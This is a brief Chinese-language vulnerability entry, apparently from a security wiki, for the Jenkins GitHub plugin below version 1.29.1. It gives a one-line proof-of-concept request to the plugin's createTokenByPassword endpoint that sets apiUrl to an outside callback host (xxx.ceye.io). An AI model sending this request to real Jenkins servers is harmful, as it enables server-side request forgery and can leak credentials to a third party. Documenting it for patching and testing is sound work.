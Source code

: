<languages   /> <translate>

影響版本
--------

Jenkins GitHub插件小於1.29.1

利用的POC如下，其中user1為用戶名。 </translate>

    /securityRealm/user/user1/descriptorByName/org.jenkinsci.plugins.github.config.GitHubTokenCredentialsCreator/createTokenByPassword?apiUrl=http://xxx.ceye.io